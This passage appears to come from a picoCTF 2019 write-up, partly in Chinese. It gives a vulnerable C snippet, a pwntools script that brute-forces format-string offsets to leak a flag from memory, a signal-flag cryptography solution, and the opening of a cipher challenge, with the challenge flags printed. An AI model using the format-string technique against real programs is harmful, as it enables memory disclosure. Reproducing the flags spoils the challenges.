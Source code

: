 ```
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);

}

```
```
from pwn import *
# context.log_level='DEBUG'
for i in range(1,100):
    r=process('./vuln')
    r.recvuntil(':')
    payload='%'+str(i)+'$s'
    r.sendline(payload)
    recv=r.recvall()
    if '{' in recv:
        print recv
        break

```
picoCTF{str1nG_CH3353_df5265ef}
## Flags - Points: 200 - (Solves: 5547)Cryptography
### review
居然有一堆人解 我覺的這題很通靈

丟以圖搜尋沒東西
但是如果查 `flag p` `flag i ` ... 點除片就會發現它是 國際信號旗


https://zh.wikipedia.org/wiki/%E5%9C%8B%E9%9A%9B%E4%BF%A1%E8%99%9F%E6%97%97

![](https://github.com/0xdeciverAngel/picoCTF2019/blob/master/flag.png?raw=true)

PICOCTF{F1AG5AND5TUFF}
## waves over lambda - Points: 300 - (Solves: 2647)Cryptography
### code

```
-------------------------------------------------------------------------------
bfowyqpx ilyl ux sfhy vnqw - vylthlobs_ux_b_fcly_nqmarq_mhjwjloofr
-------------------------------------------------------------------------------
```